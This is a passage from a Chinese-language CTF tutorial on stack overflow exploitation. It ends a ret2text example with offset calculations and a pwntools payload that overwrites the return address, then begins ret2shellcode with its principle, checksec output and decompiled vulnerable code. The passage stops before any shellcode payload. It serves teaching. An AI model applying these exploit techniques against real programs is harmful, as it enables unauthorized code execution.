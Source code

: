 
可以看到 esp 爲 0xffffcd40，ebp 爲 0xffffcdc8，同時 s 相對於 esp 的索引爲 `esp+0x1c`，因此，我們可以推斷：

- s 的地址爲 0xffffcd5c
- s 相對於 ebp 的偏移爲 0x6c
- s 相對於返回地址的偏移爲 0x6c+4

因此最後的 payload 如下：

```python
##!/usr/bin/env python
from pwn import *

sh = process('./ret2text')
target = 0x804863a
sh.sendline(b'A' * (0x6c + 4) + p32(target))
sh.interactive()
```

## ret2shellcode

### 原理

ret2shellcode，即控制程序執行 shellcode 代碼。shellcode 指的是用於完成某個功能的彙編代碼，常見的功能主要是獲取目標系統的 shell。**通常情況下，shellcode 需要我們自行編寫，即此時我們需要自行向內存中填充一些可執行的代碼**。

在棧溢出的基礎上，要想執行 shellcode，需要對應的 binary 在運行時，shellcode 所在的區域具有可執行權限。

需要注意的是，**在新版內核當中引入了較爲激進的保護策略，程序中通常不再默認有同時具有可寫與可執行的段，這使得傳統的 ret2shellcode 手法不再能直接完成利用**。

### 例子

這裏我們以 bamboofox 中的 ret2shellcode 爲例，需要注意的是，你應當在內核版本較老的環境中進行實驗（如 Ubuntu 18.04 或更老版本）。由於容器環境間共享同一內核，因此這裏我們無法通過 docker 完成環境搭建。

> 點擊下載: [ret2shellcode](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/linux/user-mode/stackoverflow/ret2shellcode/ret2shellcode-example/ret2shellcode)

首先檢測程序開啓的保護：

```shell
➜  ret2shellcode checksec ret2shellcode
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

可以看出源程序幾乎沒有開啓任何保護，並且有可讀，可寫，可執行段。接下來我們再使用 IDA 對程序進行反編譯：

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets((char *)&v4);
  strncpy(buf2, (const char *)&v4, 0x64u);
  printf("bye bye ~");
  return 0;
}
```
